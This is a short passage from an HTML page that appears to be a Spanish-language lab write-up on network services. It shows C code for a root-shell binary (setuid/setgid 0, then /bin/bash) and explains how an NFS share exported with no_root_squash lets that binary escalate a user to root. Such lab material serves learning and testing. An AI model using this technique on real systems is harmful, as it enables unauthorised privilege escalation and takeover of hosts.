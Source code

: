         <img src="../assets/images/Labs/ServiciosRedII/Untitled 7.png" alt="Untitled" onclick="openModal(this.src)"/>
      </div>
      Código en C del exploit:
      <pre>int main(){
  setgid(0);
  setuid(0);
  system("/bin/bash -");
  return 0;
}</pre>
      </td>
      <td>
      8. Y vemos que el directorio <code>/home</code> tiene activado el <strong>no_root_squash</strong>, por tanto, si metemos en dicho directorio un script que se ejecute con privilegios root, al no tener dicha configuración activa, si lo ejecutamos seremos un usuario con privilegios root y no uno normal.
      <div style="text-align:center; ">